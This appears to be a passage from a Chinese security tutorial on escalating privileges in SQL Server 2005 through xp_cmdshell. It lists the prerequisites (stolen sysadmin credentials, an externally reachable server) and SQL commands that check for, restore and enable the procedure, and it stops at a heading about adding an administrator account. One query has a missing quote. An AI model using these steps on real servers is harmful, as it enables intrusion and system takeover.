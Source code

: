 ![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfv5eumqIyiaGiavL2OcJyKC05IzricuhuUoLxBj8jd3nd7jicOAmMcovOSA/640?wx_fmt=png)

环境：
---

*   Windows server2003
    
*   SQLserver2005；
    

xp_cmdshell 扩展存储过程提权
====================

扩展存储过程中 xp_cmdshell 是一个开放接口，可以让 SQLserver 调用 cmd 命令，直接用 SQL 语句实现 cmd 操作，危害非常大。此存储过程在 SQLserver2000 中默认开启，2005 本身及之后的版本默认禁止，所以想要使用该存储过程，就需要拥有 SA 账号相应权限，使用 sp_configure（显示或更改当前服务器的全局配置设置）将其开启。

SA 是 Microsoft SQLServer 的管理员帐号，拥有最高权限，它可以执行扩展存储过程，并获得返回值。2005 的 xp_cmdshell 的权限一般是 system，而 2008 多数为 nt authority\network service。

一、**前提条件**

*   已获取到 sqlserver sysadmin 权限用户的账号与密码；
    
*   SQLserver 服务未降权：
    
*   SQLserver 可以外连；
    

### 执行系统命令添加管理员账号提权

1.  连接 SQL server 数据库，检查 xp_cmdshell 是否开启
    

> select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell;
> 
> \# xtype 为对象类型，xtype='x'表示 xp_cmdshell 的对象类型为扩展存储过程。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfxtTxicibTkS6nkRRk2rfvJoa9oga0iby9fVGLyXSicoNbsgVSQLcPATCeg/640?wx_fmt=png)

若返回结果为 1，则证明开启。

*   如果 xp_cmdshell 被删除，可以使用以下命令重新加载。
    

> dbcc addextendedproc("xp_cmdshell","xplog70.dll");

*   如果连 xplog70.dll 文件都被被删除，可以上传 xplog70.dll 进行恢复
    

> exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll';

2.  启用 xp_cmdshell 扩展存储过程
    

> exec sp_configure 'show advanced options',1;
> 
> \# 默认情况下 sp_configure 无法查看和更改高级配置选项，show advanced options” 用来显示或更改当前服务器的全局配置设置。当 “显示高级选项” 设置为 1 时（默认值为 0），可以使用 sp_configure 列出、更改高级选项。
> 
> reconfigure;
> 
> # reconfigure 使语句执行后立即生效，若无此命令，需重启 SQLserver 后才生效。
> 
> exec sp_configure 'xp_cmdshell',1;
> 
> reconfigure;
